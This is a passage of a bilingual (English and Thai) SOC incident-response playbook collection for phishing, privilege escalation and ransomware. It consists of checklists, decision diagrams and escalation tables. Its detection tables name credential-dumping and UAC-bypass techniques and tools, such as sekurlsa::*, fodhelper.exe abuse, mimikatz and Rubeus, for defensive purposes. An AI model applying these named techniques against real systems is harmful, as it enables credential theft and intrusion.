| **QR Phishing (Quishing)** | QR code นำไปหน้าปลอม | 🟠 สูง |

---

## 2. การควบคุม

### 2.1 ไม่มีผู้ใช้คลิก

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **บล็อก** sender domain/IP ที่ Mail Gateway | ☐ |
| 2 | **บล็อก** URL ที่ Proxy/DNS | ☐ |
| 3 | **ลบ** อีเมลจากทุก mailbox | ☐ |
| 4 | **รายงาน** URL/domain ไปยัง TI platform | ☐ |

### 2.2 ผู้ใช้คลิกลิงก์หรือกรอก Credentials

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **รีเซ็ตรหัสผ่าน** ทันที | ☐ |
| 2 | **เพิกถอน sessions** และ tokens ทั้งหมด | ☐ |
| 3 | **ตรวจ** sign-in logs สำหรับการเข้าถึงผิดปกติ | ☐ |
| 4 | **ตรวจ** inbox rules — forwarding ถูกสร้างหรือไม่? | ☐ |
| 5 | **ตรวจ** OAuth app consents | ☐ |

### 2.3 ผู้ใช้เปิดไฟล์แนบ

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Isolate** host ทันที | ☐ |
| 2 | **สแกน** ด้วย EDR | ☐ |
| 3 | **ส่ง** ไฟล์แนบไป sandbox | ☐ |
| 4 | **Block** hash ที่ EDR | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบอีเมล phishing จากทุก mailbox (purge) | ☐ |
| 2 | ลบ malware/implant ออกจาก host ที่ติดเชื้อ | ☐ |
| 3 | ลบ inbox rules ที่ผู้โจมตีสร้าง | ☐ |
| 4 | เพิกถอน OAuth apps ที่อันตราย | ☐ |
| 5 | สำรอง forensic evidence | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | เปิด phishing-resistant MFA (FIDO2) | ☐ |
| 2 | เปิด Safe Links / Safe Attachments | ☐ |
| 3 | ปรับ mail gateway rules | ☐ |
| 4 | ส่ง security awareness ให้ผู้ใช้ที่เกี่ยวข้อง | ☐ |
| 5 | อัปเดต phishing simulation exercises | ☐ |
| 6 | ติดตาม 7 วัน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Credentials ถูกขโมยและใช้งาน | [PB-05 บัญชีถูกบุกรุก](Account_Compromise.th.md) |
| ไฟล์แนบ = malware | [PB-03 มัลแวร์](Malware_Infection.th.md) |
| BEC — มีการโอนเงิน | [PB-17 BEC](BEC.th.md) + Legal |
| Whaling — ผู้บริหารถูกโจมตี | CISO ทันที |
| ผู้ใช้ > 10 คน ได้รับ phishing | SOC Lead |

---

### ผัง Email Security Stack

```mermaid
graph LR
    Email["📧 Inbound Email"] --> SPF["📋 SPF"]
    SPF --> DKIM["🔏 DKIM"]
    DKIM --> DMARC["🛡️ DMARC"]
    DMARC --> ATP["🔍 ATP Sandbox"]
    ATP --> Inbox["📬 Deliver"]
    ATP --> Quarantine["🗑️ Quarantine"]
    style DMARC fill:#27ae60,color:#fff
    style Quarantine fill:#e74c3c,color:#fff
```

### ผัง User Report & Response

```mermaid
sequenceDiagram
    participant User
    participant PhishBtn as Report Phishing Button
    participant SOC
    participant Email_Admin as Email Admin
    User->>PhishBtn: 📧 Report suspicious email
    PhishBtn->>SOC: 🚨 Forward to SOC
    SOC->>SOC: Analyze headers + URLs
    SOC->>Email_Admin: Block sender domain
    SOC-->>User: ✅ Thanks! Phishing confirmed
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Suspicious Inbox Rule Created | [cloud_email_inbox_rule.yml](../../08_Detection_Engineering/sigma_rules/cloud_email_inbox_rule.yml) |
| Office Spawning PowerShell | [proc_office_spawn_powershell.yml](../../08_Detection_Engineering/sigma_rules/proc_office_spawn_powershell.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-05 บัญชีถูกบุกรุก](Account_Compromise.th.md)
- [PB-26 การหลีกเลี่ยง MFA](MFA_Bypass.th.md)

## Phishing Email Analysis Checklist

| Check | How | Tool |
|:---|:---|:---|
| Sender reputation | SPF/DKIM/DMARC | Email headers |
| URL analysis | Sandbox detonation | URLScan/VirusTotal |
| Attachment scan | Hash + sandbox | Any.run/JoeSandbox |
| Header analysis | Examine X-headers | MXToolbox |
| Reply-to mismatch | Compare From vs Reply | Manual |

### Phishing Response Workflow

| Impact Level | Response | Owner |
|:---|:---|:---|
| Clicked link only | Monitor user | SOC Tier 1 |
| Entered credentials | Reset password + MFA | SOC Tier 2 |
| Downloaded malware | Full IR playbook | IR Team |
| Multiple victims | Company-wide alert | SOC + Comms |

### Phishing Impact Assessment

| Level | User Action | Response |
|:---|:---|:---|
| None | Reported only | Close + praise |
| Clicked | Visited URL | Scan + monitor |
| Submitted | Entered creds | Full IR + reset |

## อ้างอิง

- [MITRE ATT&CK T1566 — Phishing](https://attack.mitre.org/techniques/T1566/)


---

## File: 05_Incident_Response/Playbooks/Privilege_Escalation.en.md

# Playbook: Privilege Escalation

**ID**: PB-07
**Severity**: High/Critical | **Category**: Identity & Access / Endpoint
**MITRE ATT&CK**: [T1068](https://attack.mitre.org/techniques/T1068/) (Exploitation for Privilege Escalation), [T1098](https://attack.mitre.org/techniques/T1098/) (Account Manipulation), [T1078.002](https://attack.mitre.org/techniques/T1078/002/) (Domain Accounts)
**Trigger**: EDR alert, SIEM (Event 4672/4728/4732), PAM alert, sudo anomaly

### Admin Tiering Model

```mermaid
graph TD
    T0["🏰 Tier 0: Domain Controllers"] --> T1["🖥️ Tier 1: Servers"]
    T1 --> T2["💻 Tier 2: Workstations"]
    T0 -.->|❌ No cross-tier access| T2
    style T0 fill:#e74c3c,color:#fff
    style T1 fill:#f39c12,color:#fff
    style T2 fill:#27ae60,color:#fff
```

### KRBTGT Reset Procedure

```mermaid
sequenceDiagram
    participant SOC
    participant AD as AD Admin
    participant DC as Domain Controller
    SOC->>AD: 🚨 Golden Ticket detected
    AD->>DC: Reset KRBTGT #1
    Note over DC: Wait for full replication
    Note over DC: ⏳ Wait 12 hours
    AD->>DC: Reset KRBTGT #2
    Note over DC: Wait for full replication
    AD->>SOC: ✅ Golden Tickets invalidated
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Privilege Escalation Alert"] --> Method{"⚙️ Escalation Method?"}
    Method -->|Group Membership Change| Group["👥 Added to Admin Group"]
    Method -->|Exploit / Tool| Tool["🔧 Exploit Tool Detected"]
    Method -->|Configuration Change| Config["⚙️ GPO / Policy Modification"]
    Group --> Ticket{"📋 Change Request?"}
    Ticket -->|Yes, Authorized| FP["✅ False Positive"]
    Ticket -->|No| Suspicious["🔴 Unauthorized"]
    Tool --> ToolType{"Which Tool?"}
    ToolType -->|Mimikatz / LSASS Dump| Cred["🔴 Credential Theft"]
    ToolType -->|Local Exploit (CVE)| Vuln["🔴 Vulnerability Exploit"]
    ToolType -->|UAC Bypass| UAC["🟠 UAC Bypass"]
    Config --> Authorized{"Authorized Change?"}
    Authorized -->|No| Suspicious
    Suspicious --> Isolate["🔌 Isolate + Investigate"]
    Cred --> Isolate
    Vuln --> Isolate
    UAC --> Isolate
```

---

## 1. Analysis

### 1.1 Escalation Method Identification

| Method | Detection | Event IDs / Artifacts |
|:---|:---|:---|
| **Domain Admin group add** | SIEM, AD audit | 4728, 4732 (group member added) |
| **Local Admin group add** | SIEM, EDR | 4732 (local group) |
| **Mimikatz / credential dump** | EDR | LSASS access, sekurlsa::\* |
| **Token manipulation** | EDR, Sysmon | Process token changes, SeDebugPrivilege |
| **UAC bypass** | EDR, Sysmon | fodhelper.exe, eventvwr.exe abuse |
| **Kernel exploit (CVE)** | EDR, IDS | Exploit artifacts, crash dumps |
| **Sudo/SUID abuse** | Linux audit | sudo logs, SUID file execution |
| **GPO modification** | AD audit | GPO changes in SYSVOL |
| **Scheduled task as SYSTEM** | Sysmon, SIEM | 4698 (task created), SYSTEM context |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| What process/tool performed the escalation? | EDR process timeline | ☐ |
| Was it authorized? (Change request, admin work) | ITSM / Change Management | ☐ |
| Which account gained elevated privileges? | AD audit log | ☐ |
| What did the elevated account do next? | SIEM / EDR timeline | ☐ |
| Was the source host already compromised? | EDR alerts, malware presence | ☐ |
| Was credential dumping involved? | LSASS access, process injection | ☐ |
| Were other systems accessed with elevated creds? | [PB-12 Lateral Movement](Lateral_Movement.en.md) | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Remove** escalated privileges / group membership | AD / IdP | ☐ |
| 2 | **Disable** the suspicious account | AD / IdP | ☐ |
| 3 | **Isolate** the source host | EDR | ☐ |
| 4 | **Kill** the exploit/tool process | EDR | ☐ |
| 5 | **Block** the exploit hash across all endpoints | EDR global blacklist | ☐ |

### 2.2 If Credential Theft Confirmed

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Reset passwords of ALL accounts accessed from compromised host | ☐ |
| 2 | Check for Pass-the-Hash / Pass-the-Ticket usage | ☐ |
| 3 | If Domain Admin creds dumped, plan KRBTGT reset (twice, 12h apart) | ☐ |
| 4 | Audit all lateral movement from this host → [PB-12](Lateral_Movement.en.md) | ☐ |
| 5 | Check for DCSync (Event ID 4662 with replication GUIDs) | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Remove exploit tools / malware from host | ☐ |
| 2 | Patch the vulnerability used for escalation (if CVE-based) | ☐ |
| 3 | Review GPOs for unauthorized modifications | ☐ |
| 4 | Scan for backdoors: new accounts, scheduled tasks, services | ☐ |
| 5 | Check for persistence in registry, WMI, startup | ☐ |
| 6 | Re-image host if Mimikatz/credential dump confirmed | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Restore permission baseline from documented standard | ☐ |
| 2 | Full AD audit — compare current vs baseline group memberships | ☐ |
| 3 | Enable Credential Guard on workstations | ☐ |
| 4 | Implement LAPS for local admin passwords | ☐ |
| 5 | Deploy/verify Protected Users group for sensitive accounts | ☐ |
| 6 | Monitor recovered host and accounts for 72 hours | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Exploit tool/binary hash | | EDR |
| Escalated account name | | AD audit |
| Process used for escalation | | EDR |
| Source host | | SIEM |
| CVE exploited (if applicable) | | IDS / EDR |
| Lateral movement destinations | | SIEM |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Domain Admin credentials compromised | CISO + External IR |
| Mimikatz / credential dumping confirmed | Tier 2 + Identity team |
| Multiple hosts affected | Major Incident |
| GPO modified without authorization | CISO + AD team |
| Kernel exploit (0-day) | CISO + Vendor |
| Data accessed with elevated privileges | [PB-08](Data_Exfiltration.en.md) + Legal |

---

## 7. Post-Incident

- [ ] Patch vulnerabilities used for privilege escalation
- [ ] Review LAPS configuration for local admin passwords
- [ ] Audit group memberships (Domain Admins, Enterprise Admins)
- [ ] Implement credential guard and LSA protection
- [ ] Review and harden service account permissions
- [ ] Deploy PAM solution for all privileged access
- [ ] Create detection rules for observed escalation technique
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### Privilege Escalation Paths

```mermaid
graph TD
    Init["👤 Normal User"] --> Kernel["⚙️ Kernel exploit"]
    Init --> Misconfig["📋 Misconfiguration"]
    Init --> Token["🔑 Token theft"]
    Init --> Vuln["🔓 Software vuln"]
    Kernel --> Admin["👑 Admin/Root"]
    Misconfig --> Admin
    Token --> Admin
    Vuln --> Admin
    Admin --> DCSync["🏰 DCSync"]
    style Admin fill:#e74c3c,color:#fff
    style DCSync fill:#c0392b,color:#fff
```

### PAM Architecture

```mermaid
graph LR
    User["👤 User"] --> Request["📝 Request access"]
    Request --> PAM["🔒 PAM Vault"]
    PAM --> Approve["✅ Manager approval"]
    Approve --> Session["📺 Recorded session"]
    Session --> Rotate["🔄 Auto-rotate password"]
    style PAM fill:#27ae60,color:#fff
    style Session fill:#3498db,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| User Added to Domain Admins | [win_domain_admin_group_add.yml](../../08_Detection_Engineering/sigma_rules/win_domain_admin_group_add.yml) |
| New Local User Created | [win_new_user_created.yml](../../08_Detection_Engineering/sigma_rules/win_new_user_created.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-12 Lateral Movement](Lateral_Movement.en.md)
- [PB-15 Rogue Admin](Rogue_Admin.en.md)

## References

- [MITRE ATT&CK T1068 — Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)
- [MITRE ATT&CK T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/)
- [Microsoft — Securing Privileged Access](https://learn.microsoft.com/en-us/security/compass/securing-privileged-access)


---

## File: 05_Incident_Response/Playbooks/Privilege_Escalation.th.md

# Playbook: Privilege Escalation / การยกระดับสิทธิ์

**ID**: PB-07
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: Identity & Access
**MITRE ATT&CK**: [T1068](https://attack.mitre.org/techniques/T1068/) (Exploitation for Privilege Escalation), [T1078](https://attack.mitre.org/techniques/T1078/) (Valid Accounts)
**ทริกเกอร์**: EDR alert, SIEM (Event 4672/4728/4732), PAM alert, sudo anomaly


## หลังเหตุการณ์ (Post-Incident)

- [ ] Patch vulnerability ที่ใช้สำหรับ privilege escalation
- [ ] ทบทวน LAPS configuration
- [ ] ตรวจสอบ group memberships (Domain/Enterprise Admins)
- [ ] ใช้ Credential Guard / LSA protection
- [ ] ใช้ PAM สำหรับ privileged access ทั้งหมด
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผัง Admin Tiering Model

```mermaid
graph TD
    T0["🏰 Tier 0: Domain Controllers"] --> T1["🖥️ Tier 1: Servers"]
    T1 --> T2["💻 Tier 2: Workstations"]
    T0 -.->|❌ ห้ามข้าม Tier| T2
    style T0 fill:#e74c3c,color:#fff
    style T1 fill:#f39c12,color:#fff
    style T2 fill:#27ae60,color:#fff
```

### ผังขั้นตอนรีเซ็ต KRBTGT

```mermaid
sequenceDiagram
    participant SOC
    participant AD as AD Admin
    participant DC as Domain Controller
    SOC->>AD: 🚨 Golden Ticket detected
    AD->>DC: รีเซ็ต KRBTGT ครั้งที่ 1
    Note over DC: รอ replication ทั่ว forest
    Note over DC: ⏳ รอ 12 ชม.
    AD->>DC: รีเซ็ต KRBTGT ครั้งที่ 2
    Note over DC: รอ replication ทั่ว forest
    AD->>SOC: ✅ Golden Ticket ใช้ไม่ได้แล้ว
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Privilege Escalation"] --> Type{"⚙️ ประเภท?"}
    Type -->|Exploit-based| Exploit["💥 Kernel/App Exploit"]
    Type -->|Credential-based| Cred["🔑 Credential Theft"]
    Type -->|Config-based| Config["⚙️ Misconfiguration"]
    Exploit --> Impact{"📊 ระดับสิทธิ์?"}
    Cred --> Impact
    Config --> Impact
    Impact -->|Domain Admin| Critical["🔴 DCSync / Golden Ticket"]
    Impact -->|Local Admin| High["🟠 Lateral Movement Risk"]
    Impact -->|Elevated User| Medium["🟡 Monitor + Revert"]
```

---

## 1. การวิเคราะห์

### 1.1 เทคนิคการยกระดับสิทธิ์

| เทคนิค | ตัวบ่งชี้ | Event ID | ความรุนแรง |
|:---|:---|:---|:---|
| **Kernel Exploit** | Exploit binary, SYSTEM shell | — | 🔴 วิกฤต |
| **UAC Bypass** | Auto-elevate abuse | — | 🟠 สูง |
| **Token Manipulation** | Token impersonation/theft | 4672 | 🔴 สูง |
| **Sudo/SUID Abuse** (Linux) | sudo misconfig, SUID binary | — | 🟠 สูง |
| **Service Permissions** | Modifiable service path/binary | 7045 | 🟠 สูง |
| **DLL Hijacking** | DLL ใน writable path | — | 🟠 สูง |
| **Group Policy Abuse** | GPO modification | — | 🔴 สูง |
| **DCSync** | Domain replication (mimikatz) | 4662 | 🔴 วิกฤต |
| **Golden Ticket** | Forged Kerberos TGT | — | 🔴 วิกฤต |
| **Silver Ticket** | Forged service ticket | — | 🔴 สูง |

### 1.2 Windows Event IDs สำคัญ

| Event ID | ความหมาย |
|:---|:---|
| **4672** | Special privileges assigned (admin logon) |
| **4728** | Member added to security-enabled global group |
| **4732** | Member added to security-enabled local group |
| **4756** | Member added to universal group |
| **4662** | Operation performed on AD object (DCSync indicator) |
| **7045** | New service installed |

### 1.3 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ผู้ใช้/process ที่ได้รับสิทธิ์สูง | EDR / SIEM | ☐ |
| เทคนิคที่ใช้ (exploit/credential/misconfig) | EDR analysis | ☐ |
| ระดับสิทธิ์ที่ได้ (local admin/domain admin/SYSTEM) | EDR / AD audit | ☐ |
| มี lateral movement ตามมา? | SIEM correlation | ☐ |
| มี DCSync / credential dumping? | Event 4662 / SIEM | ☐ |
| AD group membership เปลี่ยน? | Event 4728/4732 | ☐ |
| มี GPO ถูกแก้ไข? | Group Policy audit | ☐ |
| Entry vector (ได้สิทธิ์เริ่มต้นอย่างไร) | EDR timeline | ☐ |

---

## 2. การควบคุม

### 2.1 Local Privilege Escalation

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Isolate** host | ☐ |
| 2 | **Kill** malicious process | ☐ |
| 3 | **ลบ** local admin ที่เพิ่มมา | ☐ |
| 4 | **Patch** vulnerability ที่ใช้ exploit | ☐ |

### 2.2 Domain-level Escalation

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **รีเซ็ต KRBTGT** password (2 ครั้ง, ห่างกัน 12 ชม.) | ☐ |
| 2 | **รีเซ็ต** compromised Domain Admin password | ☐ |
| 3 | **ลบ** unauthorized group memberships | ☐ |
| 4 | **Revert** GPO changes | ☐ |
| 5 | **Scan** ทุก DC สำหรับ persistence | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ exploit tools (mimikatz, Rubeus, SharpHound) | ☐ |
| 2 | ลบ persistence (services, scheduled tasks, registry) | ☐ |
| 3 | หมุนเวียน credentials ทั้งหมดที่เข้าถึงได้ | ☐ |
| 4 | ลบ forged tickets / cached credentials | ☐ |
| 5 | แก้ไข misconfiguration ที่ถูกใช้ (service perms, SUID) | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | Deploy **LAPS** (Local Admin Password Solution) | ☐ |
| 2 | เปิด **Credential Guard** | ☐ |
| 3 | ใช้ **PAM** (Privileged Access Management) / PIM | ☐ |
| 4 | ใช้ **Admin Tiering** (Tier 0/1/2) | ☐ |
| 5 | เปิด **Protected Users** security group | ☐ |
| 6 | ตรวจ AD permissions ทุกไตรมาส | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Domain Admin compromise | CISO + Major Incident |
| DCSync / Golden Ticket | CISO + AD team ทันที |
| หลาย host ได้รับ escalation | Major Incident |
| ข้อมูลถูกเข้าถึง | Legal + DPO |
| Lateral movement ตรวจพบ | [PB-09 Lateral Movement](Lateral_Movement.th.md) |

---

### ผัง Privilege Escalation Paths

```mermaid
graph TD
    Init["👤 Normal User"] --> Kernel["⚙️ Kernel exploit"]
    Init --> Misconfig["📋 Misconfiguration"]
    Init --> Token["🔑 Token theft"]
    Init --> Vuln["🔓 Software vuln"]
    Kernel --> Admin["👑 Admin/Root"]
    Misconfig --> Admin
    Token --> Admin
    Vuln --> Admin
    Admin --> DCSync["🏰 DCSync"]
    style Admin fill:#e74c3c,color:#fff
    style DCSync fill:#c0392b,color:#fff
```

### ผัง PAM Architecture

```mermaid
graph LR
    User["👤 User"] --> Request["📝 Request access"]
    Request --> PAM["🔒 PAM Vault"]
    PAM --> Approve["✅ Manager approval"]
    Approve --> Session["📺 Recorded session"]
    Session --> Rotate["🔄 Auto-rotate password"]
    style PAM fill:#27ae60,color:#fff
    style Session fill:#3498db,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| User Added to Domain Admins | [win_domain_admin_group_add.yml](../../08_Detection_Engineering/sigma_rules/win_domain_admin_group_add.yml) |
| New Local User Created | [win_new_user_created.yml](../../08_Detection_Engineering/sigma_rules/win_new_user_created.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-09 Lateral Movement](Lateral_Movement.th.md)
- [PB-05 บัญชีถูกบุกรุก](Account_Compromise.th.md)

## Privilege Escalation Techniques

| Technique | OS | Detection Event |
|:---|:---|:---|
| UAC bypass | Windows | Sysmon Event 1 |
| Sudo abuse | Linux | auth.log |
| Token manipulation | Windows | Event 4672 |
| Kernel exploit | Both | EDR behavioral |
| Misconfigured SUID | Linux | find command audit |

### Response Priority

| Escalation Type | Severity | Response |
|:---|:---|:---|
| Domain Admin gained | Critical | Immediate IR |
| Local admin gained | High | Investigate + contain |
| Service account abuse | High | Rotate + monitor |
| Application privilege | Medium | Review + fix |

## อ้างอิง

- [MITRE ATT&CK — Privilege Escalation](https://attack.mitre.org/tactics/TA0004/)


---

## File: 05_Incident_Response/Playbooks/Ransomware.en.md

# Playbook: Ransomware Response

**ID**: PB-02
**Severity**: Critical | **Category**: Malware / Impact
**MITRE ATT&CK**: [T1486](https://attack.mitre.org/techniques/T1486/) (Data Encrypted for Impact), [T1490](https://attack.mitre.org/techniques/T1490/) (Inhibit System Recovery)
**Trigger**: EDR alert, User report (ransom note), SIEM (mass file rename/encrypt pattern)

> ⚠️ **CRITICAL**: Do NOT pay the ransom. Do NOT negotiate without Legal/CISO approval. Time is critical — every minute counts.

### Recovery Priority Order

```mermaid
graph LR
    A["1️⃣ AD/DC"] --> B["2️⃣ DNS/DHCP"]
    B --> C["3️⃣ Critical Servers"]
    C --> D["4️⃣ Business Apps"]
    D --> E["5️⃣ Workstations"]
    style A fill:#ff4444,color:#fff
    style B fill:#ff6600,color:#fff
    style C fill:#ff9900,color:#fff
    style D fill:#ffcc00,color:#000
    style E fill:#88cc00,color:#000
```

### Incident Communication Flow

```mermaid
sequenceDiagram
    participant SOC
    participant CISO
    participant Legal
    participant PR
    participant CEO
    SOC->>CISO: 🚨 Ransomware confirmed
    CISO->>Legal: Assess PDPA / regulatory
    CISO->>CEO: BCP activation
    Legal->>CISO: Ransom / notification advice
    CISO->>PR: Prepare statement (if needed)
    PR->>CEO: Approve statement
    SOC->>CISO: Status update every 2h
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Ransomware Detected"] --> Isolate{"🔌 Isolate IMMEDIATELY"}
    Isolate -->|EDR Available| NetworkIso["Network Isolation via EDR"]
    Isolate -->|EDR Unavailable| Physical["Physically Disconnect"]
    NetworkIso --> Scope["📊 Determine Scope"]
    Physical --> Scope
    Scope --> Single{"Single Host?"}
    Single -->|Yes| Contain["Standard Containment"]
    Single -->|No, Spreading| Activate["🚨 Activate Major IR"]
    Activate --> Segment["Segment Network"]
    Segment --> Shutdown["Shutdown Unaffected Critical Systems"]
    Contain --> Identify["🔍 Identify Strain"]
    Shutdown --> Identify
    Identify --> Decrypt{"Decryptor Available?"}
    Decrypt -->|Yes| DecryptFiles["Attempt Decryption"]
    Decrypt -->|No| Wipe["Wipe & Re-image"]
    DecryptFiles --> Restore["Restore & Validate"]
    Wipe --> Restore
    Restore --> Patch["Patch Entry Vector"]
    Patch --> Reconnect["Reconnect to Network"]
```

---

## 1. Analysis (First 15 Minutes)

### 1.1 Immediate Verification

| Check | How | Done |
|:---|:---|:---:|
| Ransom note present? | Check Desktop, affected folders | ☐ |
| File extensions changed? | Look for `.encrypted`, `.locked`, `.crypt` | ☐ |
| Shadow copies deleted? | Check `vssadmin list shadows` | ☐ |
| Encryption still active? | Monitor file system activity | ☐ |

### 1.2 Scope Assessment

| Check | How | Done |
|:---|:---|:---:|
| Number of affected hosts | SIEM query for similar alerts | ☐ |
| Network shares encrypted? | Check SMB/CIFS share status | ☐ |
| Lateral movement evidence? | RDP/SMB/WMI/PsExec logs from affected host | ☐ |
| Data exfiltrated before encryption? | Firewall/DLP logs for large outbound transfers | ☐ |
| Backup integrity | Verify offline/immutable backups are intact | ☐ |

### 1.3 Strain Identification

| Method | Tool |
|:---|:---|
| Ransom note text | [ID Ransomware](https://id-ransomware.malwarehunterteam.com/) |
| Encrypted file sample | [No More Ransom](https://www.nomoreransom.org/) |
| File hash (malware binary) | VirusTotal, ThreatFox |
| C2 domain/IP | TI feeds, OSINT |

---

## 2. Containment

### 2.1 Immediate (within 5 minutes)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Network isolate** all affected hosts | EDR | ☐ |
| 2 | Disable affected user accounts | AD / IdP | ☐ |
| 3 | Block C2 IPs/domains at firewall | Firewall | ☐ |
| 4 | Block malware hash across all endpoints | EDR | ☐ |
| 5 | Disable RDP/SMB if spreading laterally | GPO / Firewall | ☐ |

### 2.2 If Spreading (Major Incident)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Activate Major Incident Response plan | ☐ |
| 2 | Segment network (isolate affected VLAN) | ☐ |
| 3 | Shut down critical servers pre-emptively | ☐ |
| 4 | Disable domain-wide SMBv1 | ☐ |
| 5 | Notify CISO, Legal, and executive team | ☐ |

---

## 3. Eradication & Recovery

### 3.1 Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Wipe & re-image** — do NOT attempt to clean | ☐ |
| 2 | Remove persistence mechanisms (scheduled tasks, services, registry) | ☐ |
| 3 | Scan all connected systems for dormant payloads | ☐ |
| 4 | Reset all potentially compromised credentials | ☐ |

### 3.2 Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Restore from last known good backup (offline/immutable) | ☐ |
| 2 | Validate restored data integrity (hash comparison) | ☐ |
| 3 | Patch the entry vector (RDP, VPN, phishing gap) | ☐ |
| 4 | Re-enable network connectivity in stages | ☐ |
| 5 | Monitor recovered systems for 72 hours | ☐ |

---

## 4. Notification & Legal

| Stakeholder | When | Channel |
|:---|:---|:---|
| SOC Lead / Manager | Immediately | Chat + Phone |
| CISO | Within 30 minutes | Phone |
| Legal / Compliance | Within 1 hour | Email + Phone |
| CEO / Board (if major) | Within 4 hours | Briefing |
| Regulatory (PDPA/GDPR) | Within 72 hours if data breach | Official notification |
| Law enforcement | As directed by Legal | Official channels |

> ⚠️ Do NOT communicate details on potentially compromised channels (email may be monitored by attacker).

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Malware Binary Hash | | EDR / Forensics |
| Ransom Note Filename | | Affected host |
| Encrypted File Extension | | Affected host |
| C2 IP/Domain | | Network logs |
| Initial Access Vector | | Investigation |
| Lateral Movement Tool | | EDR logs |

---

## 6. Post-Incident

- [ ] Conduct lessons learned within 5 business days
- [ ] Update endpoint hardening (disable macros, restrict PowerShell)
- [ ] Verify backup strategy (3-2-1 rule with immutable copy)
- [ ] Create/update detection rules for the attack chain
- [ ] Brief all SOC analysts on lessons learned
- [ ] Document in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### 3-2-1 Backup Strategy

```mermaid
graph TD
    Backup["💾 3-2-1 Backup"] --> Three["📋 3 copies"]
    Three --> Two["🗄️ 2 media types"]
    Two --> One["☁️ 1 offsite/air-gapped"]
    One --> Test["🧪 Test restore monthly"]
    Test --> Immutable["🔒 Immutable backup"]
    style Backup fill:#3498db,color:#fff
    style Immutable fill:#27ae60,color:#fff
```

### Ransom Payment Decision

```mermaid
graph TD
    Pay{"💰 Pay ransom?"} -.->|⚠️ Not recommended| Risks["❌ Risks"]
    Pay --> Legal["⚖️ Legal consult"]
    Risks --> R1["No decryption guarantee"]
    Risks --> R2["Funds criminal operations"]
    Risks --> R3["May be targeted again"]
    Legal --> CISO["🧑‍💼 CISO decides"]
    CISO --> Recovery["♻️ Recovery Plan"]
    style Pay fill:#e74c3c,color:#fff
    style Risks fill:#c0392b,color:#fff
    style Recovery fill:#27ae60,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Ransomware Bulk Renaming | [file_bulk_renaming_ransomware.yml](../../08_Detection_Engineering/sigma_rules/file_bulk_renaming_ransomware.yml) |
| PowerShell Encoded Command | [proc_powershell_encoded.yml](../../08_Detection_Engineering/sigma_rules/proc_powershell_encoded.yml) |
| Execution from Temp/Downloads | [proc_temp_folder_execution.yml](../../08_Detection_Engineering/sigma_rules/proc_temp_folder_execution.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-12 Lateral Movement](Lateral_Movement.en.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.en.md)
- [Disaster Recovery / BCP](../Disaster_Recovery_BCP.en.md)

## References

- [MITRE ATT&CK T1486 — Data Encrypted for Impact](https://attack.mitre.org/techniques/T1486/)
- [CISA Ransomware Guide](https://www.cisa.gov/stopransomware/ransomware-guide)
- [No More Ransom Project](https://www.nomoreransom.org/)
- [ID Ransomware](https://id-ransomware.malwarehunterteam.com/)


---

## File: 05_Incident_Response/Playbooks/Ransomware.th.md

# Playbook: แรนซัมแวร์ (Ransomware)

**ID**: PB-02
